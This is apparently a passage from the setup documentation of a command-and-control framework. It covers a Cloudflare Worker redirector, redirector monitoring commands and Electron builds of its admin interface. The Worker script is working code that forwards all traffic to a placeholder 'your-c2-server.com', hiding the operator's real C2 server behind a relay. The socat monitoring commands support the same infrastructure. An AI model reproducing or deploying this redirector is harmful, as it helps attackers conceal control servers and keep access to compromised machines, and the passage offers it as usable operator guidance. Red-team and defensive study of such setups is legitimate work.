 ### Cloudflare Worker Redirector

For advanced setups, use Cloudflare Workers:

```javascript
addEventListener('fetch', event => {
  event.respondWith(handleRequest(event.request))
})

async function handleRequest(request) {
  // Forward to actual C2 server
  const targetUrl = 'https://your-c2-server.com'
  
  const modifiedRequest = new Request(targetUrl + request.url.substring(request.url.indexOf('/', 8)), {
    method: request.method,
    headers: request.headers,
    body: request.body
  })
  
  const response = await fetch(modifiedRequest)
  return response
}
```

### Redirector Monitoring

Monitor redirector health and traffic:

```bash
# Monitor active connections
watch -n 1 "netstat -an | grep :443"

# Monitor logs
tail -f /var/log/redirector.log

# Check redirector process
ps aux | grep socat
```

## Desktop Application Deployment

### Building Desktop Installers

#### Prerequisites
```bash
cd server/admin_web_ui
npm install electron electron-builder --save-dev
```

#### Build Commands
```bash
# Build for current platform
npm run electron-build

# Build for specific platforms
npm run electron-build:linux
npm run electron-build:mac
npm run electron-build:win
npm run electron-build:all
```
